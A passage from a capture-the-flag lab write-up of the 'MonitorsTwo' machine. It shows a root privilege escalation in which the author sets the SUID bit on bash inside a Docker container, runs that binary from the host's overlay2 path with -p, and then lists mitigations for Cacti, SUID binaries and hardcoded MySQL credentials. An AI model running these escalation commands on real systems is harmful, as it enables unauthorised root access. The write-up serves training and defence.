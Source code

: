 ```shell
marcus@monitorstwo:~$ ls /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
bin  boot  dev  docker-entrypoint-initdb.d  entrypoint.sh  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
marcus@monitorstwo:~$ ls /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
bin  boot  dev  entrypoint.sh  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
marcus@monitorstwo:~$ 
```

Now I can go to the docker container and give bash suid permission.

```bash
root@50bca5e748b0:/# chmod +s /bin/bash
```

Now back to the host machine, we can run the bash binary located in the container with `-p` option to get a root shell:

```bash
marcus@monitorstwo:~$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p
bash-5.1# whoami
root
bash-5.1# cd /root
bash-5.1# ls
cacti  root.txt
```

## **Prevention and Mitigation**

### Cacti

The website was using a old version of `Cacti` vulnerable to RCE.

It is important to ensure that the system and applications you are using are patched and updated with the latest security updates.

Vulnerabilities with this type can often be mitigated by applying patches provided by the software provider.

### SUID

We find a command with SUID permission allowed us to escalate to root in the docker container.

In linux there are some commands that gives a direct privilege escalation path if they got the SUID bit. A list of these commands can be found in [GTFOBins](https://gtfobins.github.io). It's better to avoid giving those command SUID permissions.

### MySql

We were able to find hardcoded credentials for mysql which allowed us to authenticate to the `mysql` service and get password hashes.
